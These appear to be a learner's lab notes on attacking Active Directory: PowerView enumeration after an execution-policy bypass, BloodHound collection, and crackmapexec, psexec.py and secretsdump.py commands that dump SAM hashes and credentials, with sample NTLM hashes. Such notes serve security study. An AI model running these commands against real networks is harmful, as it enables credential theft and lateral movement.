





**1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 Post Enum Attack**
**4 **

---

**Powerview.ps1:**
    Place powerview.ps1 on normal W10 machine
    
`powershell -ep bypass #bypass execution policy` 
cd to dir with powerview.ps1
`. .\Powerview.ps1 #runs shell - returns 0 output`

```
get-domainpolicy
(Get-DomainPolicy)."system access" #PW/ACC info
get-netdomain
get-netdomaincontroller
get-netuser | select cn
get-netcomputer -fulldata
get-computerinfo #HW info
get-netgroup -groupname *admin* # admin group names
get-netgroupmember -groupname "Domain Admins"
invoke-sharefinder #show all shares
get-netGPO | select displayname, whenchanged
```
---

**2. Bloodhound:**
```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**
    + on W10 download sharphound.ps1
    `> powershell -ep bypass`
    `> . .\sharphound.ps1`
    `> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip`
    
    + move file.zip first onto baremetal Desktop then to kali VM.
    + import data :: enjoy
    
**Attacking AD - Post-Compromise Attacks:**
    - **Pass-The-Hash:**
        -`apt install crackmapexec` 
        -`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1'` \
        -
        -`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam` \
        - \
        -`psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206`
        -
    - **Secretsdump.py:**
        -`secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206`
        -
    - **NTLM hash Example:**
            ```
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        Propylene Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::
            ```

    ***You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes***

[log4j_notice](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)\
[powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)\
[hacktricks](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)\
[bloodhoundGH](https://github.com/BloodHoundAD)\
[sharphound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)